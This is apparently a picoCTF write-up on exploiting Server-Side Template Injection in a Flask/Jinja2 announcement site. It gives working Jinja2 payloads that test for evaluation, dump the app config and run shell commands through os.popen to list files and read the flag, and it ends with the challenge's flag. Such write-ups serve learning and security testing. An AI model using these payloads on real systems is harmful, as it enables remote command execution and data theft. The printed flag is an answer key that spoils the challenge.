



# Server-Side Template Injection (SSTI) – picoCTF Write-up

## Challenge Overview

This challenge provided a website where users could **announce anything they wanted**.
The hint mentioned that the application used **templating**, which suggested the possibility of a **Server-Side Template Injection (SSTI)** vulnerability.

The objective was to determine whether **user input was being evaluated by the template engine** and, if so, exploit it to retrieve the flag.



---

## Step 1 — Testing for SSTI

To check whether the application evaluated template expressions, I entered the following payload in the input field:
```
{{7*7}}
```



### Output
```
49
```


Since the expression was evaluated and returned **49**, this confirmed that the application was vulnerable to **Server-Side Template Injection**. Based on common picoCTF setups, the application was likely using **Flask with the Jinja2 template engine**.

---

## Step 2 — Accessing Application Configuration

Next, I attempted to view the application's configuration variables to gather more information about the environment.

### Payload
```
{{ config.items() }}
```


### Output

This confirmed the app was running **Flask + Jinja2**. However, the flag was not present in the config, so further enumeration was needed.

---

## Step 3 — Executing System Commands

To escalate the SSTI vulnerability, I attempted to execute system commands using Python's `os` module.

### Payload
```
{{ cycler.__init__.__globals__.os.popen('ls').read() }}
```


### Output
```
__pycache__ app.py flag requirements.txt
```


From the output, I noticed a file named `flag` on the server!

---

## Step 4 — Reading the Flag File

Since the flag file was identified, I attempted to read its contents.

### Payload
```
{{ cycler.__init__.__globals__.os.popen('cat flag').read() }}
```


### Output



---

## Flag
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_9451989d}
```

---

